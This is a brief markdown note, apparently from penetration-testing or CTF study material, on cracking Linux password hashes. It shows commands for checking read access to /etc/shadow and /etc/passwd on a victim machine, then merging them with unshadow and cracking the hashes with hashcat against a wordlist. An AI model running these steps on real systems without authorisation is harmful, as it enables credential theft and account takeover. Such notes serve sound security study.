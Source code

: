 ### Victim VM
```bash
$ ls -la /etc/shadow
$ ls -la /etc/passwd
```
If we have permissions to read, we can transfer this archives to our vm

### Attacker VM
```bash
$ unshadow passwd shadow > unshadowed.txt
$ hashcat -m 1800 unshadowed.txt /usr/share/wordlists/rockyou.txt -O
```